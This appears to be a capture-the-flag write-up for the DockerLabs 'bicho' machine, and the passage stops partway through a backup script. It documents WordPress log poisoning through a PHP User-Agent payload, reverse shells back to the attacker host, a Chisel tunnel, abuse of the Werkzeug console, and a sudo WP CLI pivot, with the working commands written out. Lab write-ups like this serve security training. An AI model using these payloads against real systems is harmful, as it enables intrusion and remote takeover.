




# bicho

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| bicho | Trr0r | easy / facil | dockerlabs |

**Summary:** The bicho machine is a multi-stage exploitation challenge centred around a WordPress installation accessible via a virtual hostname. The web server redirected to `bicho.dl`, which was added to `/etc/hosts` before enumeration began. WPScan identified WordPress 6.6.2 with the username `bicho`, a publicly readable debug log at `wp-content/debug.log`, and an internal Flask service on port 5000 that was not exposed externally. With the debug log confirmed to record failed login attempts, a log poisoning attack was carried out by injecting a base64-encoded reverse shell payload into the `User-Agent` header of a crafted POST request to `wp-login.php`. Fetching the debug log via curl triggered the PHP code it contained, delivering a shell as `www-data`. Port enumeration on the compromised host revealed the internal Flask application running on `127.0.0.1:5000`. Chisel was transferred to the target and used to set up a reverse TCP tunnel, forwarding the internal port to the attacker's machine on port 3000. The exposed Flask application included a `/console` endpoint, identified as a Werkzeug interactive debugger, which was abused to execute Python code and spawn a second reverse shell as the `app` user. As `app`, a `sudo -l` check revealed passwordless access to `/usr/local/bin/wp` as `wpuser`. The WP CLI `--exec` flag was used to call `system()` and execute a pre-staged reverse shell script, pivoting to `wpuser` and capturing the user flag. A further `sudo -l` for `wpuser` exposed the ability to run `/opt/scripts/backup.sh` as root. The script used `eval` on a user-controlled argument interpolated into a shell command without sanitisation, constituting a command injection vulnerability. A path traversal payload appending `; chmod u+s /bin/bash ;` was passed as the argument, setting the SUID bit on `/bin/bash`. Running `bash -p` yielded an effective root shell, which was then fully dropped via a `python3` `setuid` call and confirmed with `su -`.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ sudo bash auto_deploy.sh bicho.tar   

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-29 16:40 +0700
Nmap scan report for 172.17.0.2 (172.17.0.2)
Host is up (0.0000090s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Did not follow redirect to http://bicho.dl
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 1A:93:80:C1:68:10 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds
```

The scan revealed only port 80 open. The HTTP title indicated a redirect to `http://bicho.dl`, requiring a `/etc/hosts` entry before the web application would resolve.

**3. Adding the Virtual Host**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ echo '172.17.0.2 bicho.dl' | sudo tee -a /etc/hosts 
[sudo] password for ouba: 
172.17.0.2 bicho.dl
```

With the hostname resolved, the WordPress site became accessible.


---

## Initial Access

### WordPress Enumeration with WPScan

**4. Running WPScan**

WPScan was run with aggressive detection and user enumeration against `http://bicho.dl`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ wpscan --url http://bicho.dl --enumerate ap,at,cb,dbe,u,m --plugins-detection aggressive --api-token ...                     
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://bicho.dl/ [172.17.0.2]
[+] Started: Wed Jul 29 16:54:29 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://bicho.dl/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://bicho.dl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Debug Log found: http://bicho.dl/wp-content/debug.log
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: https://codex.wordpress.org/Debugging_in_WordPress

[+] Upload directory has listing enabled: http://bicho.dl/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://bicho.dl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.6.2 identified (Insecure, released on 2024-09-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://bicho.dl/?feed=rss2, <generator>https://wordpress.org/?v=6.6.2</generator>
 |  - http://bicho.dl/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.6.2</generator>
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: WP < 6.8.3 - Author+ DOM Stored XSS
 |     Fixed in: 6.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/c4616b57-770f-4c40-93f8-29571c80330a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58674
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-cross-site-scripting-xss-vulnerability
 |      -  https://wordpress.org/news/2025/09/wordpress-6-8-3-release/
 |
 | [!] Title: WP < 6.8.3 - Contributor+ Sensitive Data Disclosure
 |     Fixed in: 6.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/1e2dad30-dd95-4142-903b-4d5c580eaad2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-58246
 |      - https://patchstack.com/database/wordpress/wordpress/wordpress/vulnerability/wordpress-wordpress-wordpress-6-8-2-sensitive-data-exposure-vulnerability
 |      - https://wordpress.org/news/2025/09/wordpress-6-8-3-release/

[+] WordPress theme in use: bosa-travel-agency
 | Location: http://bicho.dl/wp-content/themes/bosa-travel-agency/
 | Last Updated: 2026-05-10T00:00:00.000Z
 | Readme: http://bicho.dl/wp-content/themes/bosa-travel-agency/readme.txt
 | [!] The version is out of date, the latest version is 1.0.2
 | Style URL: http://bicho.dl/wp-content/themes/bosa-travel-agency/style.css?ver=6.6.2
 | Style Name: Bosa Travel Agency
 | Style URI: https://bosathemes.com/bosa-travel-agency
 | Description: Bosa Travel Agency is multipurpose business theme. Bosa Travel Agency is beautiful, fast, lightweigh...
 | Author: Bosa Themes
 | Author URI: https://bosathemes.com
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://bicho.dl/wp-content/themes/bosa-travel-agency/style.css?ver=6.6.2, Match: 'Version: 1.0.0'

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:05:35 <=========> (126390 / 126390) 100.00% Time: 00:05:35[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://bicho.dl/wp-content/plugins/akismet/
 | Last Updated: 2026-04-23T22:34:00.000Z
 | Readme: http://bicho.dl/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.7
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://bicho.dl/wp-content/plugins/akismet/, status: 200
 |
 | Version: 5.3.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://bicho.dl/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://bicho.dl/wp-content/plugins/akismet/readme.txt

[+] https://github.com/placetopay/woocommerce-gateway-placetopay
 | Location: http://bicho.dl/wp-content/plugins/https://github.com/placetopay/woocommerce-gateway-placetopay/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://github.com/placetopay/woocommerce-gateway-placetopay/, status: 200
 |
 | The version could not be determined.

[+] Enumerating All Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:02:23 <===========>(32776 / 32776) 100.00% Time: 00:02:23[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] bosa-travel-agency
 | Location: http://bicho.dl/wp-content/themes/bosa-travel-agency/
 | Last Updated: 2026-05-10T00:00:00.000Z
 | Readme: http://bicho.dl/wp-content/themes/bosa-travel-agency/readme.txt
 | [!] The version is out of date, the latest version is 1.0.2
 | Style URL: http://bicho.dl/wp-content/themes/bosa-travel-agency/style.css
 | Style Name: Bosa Travel Agency
 | Style URI: https://bosathemes.com/bosa-travel-agency
 | Description: Bosa Travel Agency is multipurpose business theme. Bosa Travel Agency is beautiful, fast, lightweigh...
 | Author: Bosa Themes
 | Author URI: https://bosathemes.com
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://bicho.dl/wp-content/themes/bosa-travel-agency/, status: 500
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://bicho.dl/wp-content/themes/bosa-travel-agency/style.css, Match: 'Version: 1.0.0'

[+] twentytwentyfour
 | Location: http://bicho.dl/wp-content/themes/twentytwentyfour/
 | Last Updated: 2026-05-20T00:00:00.000Z
 | Readme: http://bicho.dl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 | Style URL: http://bicho.dl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://bicho.dl/wp-content/themes/twentytwentyfour/, status: 200
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://bicho.dl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.2'

[+] twentytwentythree
 | Location: http://bicho.dl/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://bicho.dl/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: http://bicho.dl/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://bicho.dl/wp-content/themes/twentytwentythree/, status: 200
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://bicho.dl/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.5'

[+] twentytwentytwo
 | Location: http://bicho.dl/wp-content/themes/twentytwentytwo/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://bicho.dl/wp-content/themes/twentytwentytwo/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://bicho.dl/wp-content/themes/twentytwentytwo/style.css
 | Style Name: Twenty Twenty-Two
 | Style URI: https://wordpress.org/themes/twentytwentytwo/
 | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://bicho.dl/wp-content/themes/twentytwentytwo/, status: 200
 |
 | Version: 1.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://bicho.dl/wp-content/themes/twentytwentytwo/style.css, Match: 'Version: 1.8'

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <================> (137 / 137) 100.00% Time: 00:00:00
[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <======================> (75 / 75) 100.00% Time: 00:00:00
[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:01 <===========>(100 / 100) 100.00% Time: 00:00:01
[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=================> (10 / 10) 100.00% Time: 00:00:00
[i] User(s) Identified:

[+] bicho
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 6
 | Requests Remaining: 18

[+] Finished: Wed Jul 29 17:03:06 2026
[+] Requests Done: 159539
[+] Cached Requests: 54
[+] Data Sent: 41.211 MB
[+] Data Received: 21.994 MB
[+] Memory used: 491.305 MB
[+] Elapsed time: 00:08:36
```

Key findings from WPScan: WordPress 6.6.2 with a known insecure version, a publicly readable debug log at `wp-content/debug.log`, and the WordPress username `bicho` identified through multiple passive and aggressive methods.

**5. Gobuster Directory Enumeration**

A parallel Gobuster scan confirmed the standard WordPress structure and the presence of `wp-login.php`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ gobuster dir -u http://$ip -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bicho.dl
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 301) [Size: 0] [--> http://bicho.dl/]
wp-content           (Status: 301) [Size: 309] [--> http://bicho.dl/wp-content/]
wp-login.php         (Status: 200) [Size: 4476]
license.txt          (Status: 200) [Size: 19915]
wp-includes          (Status: 301) [Size: 310] [--> http://bicho.dl/wp-includes/]
javascript           (Status: 301) [Size: 309] [--> http://bicho.dl/javascript/]
readme.html          (Status: 200) [Size: 7409]
wp-trackback.php     (Status: 200) [Size: 135]
wp-admin             (Status: 301) [Size: 307] [--> http://bicho.dl/wp-admin/]
xmlrpc.php           (Status: 405) [Size: 42]
wp-signup.php        (Status: 302) [Size: 0] [--> http://bicho.dl/wp-login.php?action=register]
server-status        (Status: 403) [Size: 273]
Progress: 882228 / 882228 (100.00%)
===============================================================
Finished
===============================================================
```

### Log Poisoning via debug.log

**6. Discovering Login Attempts in the Debug Log**

Browsing `http://bicho.dl/wp-content/debug.log` confirmed that WordPress was logging failed login attempts, including the User-Agent string of the requesting client.



**7. Encoding the Reverse Shell Payload**

A bash reverse shell was base64-encoded for injection into the User-Agent header.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ echo 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1' | base64 
YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0NDQgMD4mMQo=
```

**8. Injecting the PHP Payload into the Debug Log**

A POST request was sent to `wp-login.php` with the User-Agent set to a PHP code snippet that would decode and execute the base64 reverse shell. The failed login caused WordPress to write the User-Agent — including the PHP code — into the debug log file.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ curl -s -X POST http://bicho.dl/wp-login.php -H "User-Agent: <?php echo \`printf YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0NDQgMD4mMQo= |base64 -d | bash\`;?>" -d "log=bicho&pwd=pwd&wp-submit=Log+In"
<!DOCTYPE html>
        <html lang="en-US">
        <head>
...
```

**9. Starting the Listener and Triggering Execution**

A netcat listener was started and the debug log was fetched to trigger PHP execution.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ curl http://bicho.dl/wp-content/debug.log
```

**10. Receiving the Shell and Stabilising the TTY**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43092
bash: cannot set terminal process group (275): Inappropriate ioctl for device
bash: no job control in this shell
www-data@d15a48d31be8:/var/www/bicho.dl/wp-content$ which python3
which python3
/usr/bin/python3
www-data@d15a48d31be8:/var/www/bicho.dl/wp-content$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ent$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@d15a48d31be8:/var/www/bicho.dl/wp-content$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                             
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ stty raw -echo; fg                   
[1]  + continued  nc -lvnp 4444

www-data@d15a48d31be8:/var/www/bicho.dl/wp-content$ export TERM=xterm
www-data@d15a48d31be8:/var/www/bicho.dl/wp-content$ export SHELL=/bin/bash
www-data@d15a48d31be8:/var/www/bicho.dl/wp-content$ stty rows 80 cols 130
```

A stable TTY shell was obtained as `www-data`.

---

## Lateral Movement

### Discovering the Internal Flask Service

**11. Enumerating Users and Internal Ports**

With a foothold as `www-data`, user accounts and network services were enumerated.

```bash
www-data@d15a48d31be8:/var/www/bicho.dl/wp-content$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@d15a48d31be8:/var/www/bicho.dl/wp-content$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
wpuser:x:1002:1002:,,,:/home/wpuser:/bin/bash
www-data@d15a48d31be8:/var/www/bicho.dl/wp-content$ ls -la /home
total 16
drwxr-xr-x 1 root   root   4096 Apr 15  2025 .
drwxr-xr-x 1 root   root   4096 Jul 29 09:39 ..
drwxr-x--- 2 app    app    4096 Apr 15  2025 app
drwxr-x--- 3 wpuser wpuser 4096 Apr 15  2025 wpuser
```

```bash
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -  
```

Two internal services were discovered: MySQL on port 3306 and a Flask/Werkzeug application on port 5000, both bound only to `127.0.0.1`.

### Port Forwarding with Chisel

**12. Transferring Chisel to the Target**

A Python HTTP server was started on the attacker machine to serve the chisel binary. The target downloaded it and was made executable.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/bicho]
└─$ cd /opt

┌──(ouba㉿CLIENT-DESKTOP)-[/opt]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
172.17.0.2 - - [29/Jul/2026 19:05:08] "GET /chisel HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

┌──(ouba㉿CLIENT-DESKTOP)-[/opt]
└─$ ./chisel server -p 1234 --reverse
2026/07/29 19:05:24 server: Reverse tunnelling enabled
2026/07/29 19:05:24 server: Fingerprint 7u5YNTnPQRT3IwCyTvJ/90vIQy+ff0l7QXF+9Ns0U/E=
2026/07/29 19:05:24 server: Listening on http://0.0.0.0:1234
```

```bash
www-data@d15a48d31be8:/tmp$ wget http://172.17.0.1:1337/chisel
--2026-07-29 12:05:08--  http://172.17.0.1:1337/chisel
Connecting to 172.17.0.1:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8945816 (8.5M) [application/octet-stream]
Saving to: 'chisel'

chisel                             0%[                                                         ]       0  --.chisel                           100%[========================================================>]   8.53M  --.-KB/s    in 0.03s   

2026-07-29 12:05:08 (300 MB/s) - 'chisel' saved [8945816/8945816]

www-data@d15a48d31be8:/tmp$ chmod +x chisel
www-data@d15a48d31be8:/tmp$ ./chisel client 172.17.0.1:1234 R:3000:127.0.0.1:5000
2026/07/29 12:11:50 client: Connecting to ws://172.17.0.1:1234
2026/07/29 12:11:50 client: Connected (Latency 2.7146ms)
```

```bash
2026/07/29 19:11:50 server: session#1: tun: proxy#R:3000=>5000: Listening
```

The tunnel was established, forwarding the internal port 5000 to port 3000 on the attacker machine.

### Exploiting the Werkzeug Interactive Console

**13. Accessing the Internal Flask Application**

With the tunnel active, the Flask application was accessible at `http://127.0.0.1:3000/`.



**14. Accessing the /console Endpoint**

The Werkzeug interactive debugger console was found at `/console`, providing direct Python code execution in the context of the application's running process.



**15. Executing a Reverse Shell via the Console**

A listener was started and a reverse shell was executed through the Werkzeug console.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```



**16. Receiving the Shell as app and Stabilising**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 46252
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
app@d15a48d31be8:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
app@d15a48d31be8:/$ ^Z
zsh: suspended  nc -lvnp 8888

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 8888

app@d15a48d31be8:/$ export SHELL=/bin/bash
app@d15a48d31be8:/$ export TERM=xterm
app@d15a48d31be8:/$ stty rows 80 cols 130
```

### Pivoting from app to wpuser via WP CLI

**17. Checking sudo Permissions for app**

```bash
app@d15a48d31be8:~$ id;whoami;hostname
uid=1001(app) gid=1001(app) groups=1001(app),100(users)
app
d15a48d31be8
app@d15a48d31be8:~$ sudo -l
Matching Defaults entries for app on d15a48d31be8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User app may run the following commands on d15a48d31be8:
    (wpuser) NOPASSWD: /usr/local/bin/wp
```

The `app` user could run `/usr/local/bin/wp` (WP CLI) as `wpuser` without a password. The `--exec` flag in WP CLI evaluates arbitrary PHP code, making it a direct code execution vector.

**18. Staging the Shell Script and Delivering the Payload**

A reverse shell script was written to `/tmp/shell` and a listener was started before invoking WP CLI.

```bash
app@d15a48d31be8:~$ echo 'bash -i >& /dev/tcp/172.17.0.1/1337 0>&1' > /tmp/shell
app@d15a48d31be8:~$ chmod +x /tmp/shell
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
```

```bash
app@d15a48d31be8:~$ sudo -u wpuser /usr/local/bin/wp --exec="system('bash -c /tmp/shell');"
```

**19. Receiving the Shell as wpuser and Stabilising**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 50712
wpuser@d15a48d31be8:/home/app$ id
id
uid=1002(wpuser) gid=1002(wpuser) groups=1002(wpuser),100(users)
wpuser@d15a48d31be8:/home/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
wpuser@d15a48d31be8:/home/app$ ^Z
zsh: suspended  nc -lvnp 1337

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1337

wpuser@d15a48d31be8:/home/app$ export SHELL=/bin/bash
wpuser@d15a48d31be8:/home/app$ export TERM=xterm
wpuser@d15a48d31be8:/home/app$ stty rows 80 cols 130
```

**20. Retrieving the User Flag**

```bash
wpuser@d15a48d31be8:~$ id;whoami
uid=1002(wpuser) gid=1002(wpuser) groups=1002(wpuser),100(users)
wpuser
wpuser@d15a48d31be8:~$ cat user.txt 
ab1[REDACTED]
```

---

## Privilege Escalation

### Command Injection via backup.sh eval

**21. Checking sudo Permissions for wpuser**

```bash
wpuser@d15a48d31be8:~$ sudo -l
Matching Defaults entries for wpuser on d15a48d31be8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User wpuser may run the following commands on d15a48d31be8:
    (root) NOPASSWD: /opt/scripts/backup.sh
```

**22. Inspecting the backup.sh Script**

The script was readable and its source confirmed the vulnerability: a user-supplied argument was interpolated into a shell command string and passed to `eval` without any sanitisation.

```bash
wpuser@d15a48d31be8:~$ ls -la /opt/scripts/backup.sh 
-rwxr-x--- 1 root wpuser 910 Apr 15  2025 /opt/scripts/backup.sh
wpuser@d15a48d31be8:~$ cat /opt/scripts/backup.sh 
#!/bin/bash
# Author: Álvaro Bernal (aka. trr0r)
# backup.sh: Realiza una copia de un log en una ubicación determinada (/backup)

# COLORES
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"
orangeColour="\e[38;5;214m\033[1m"
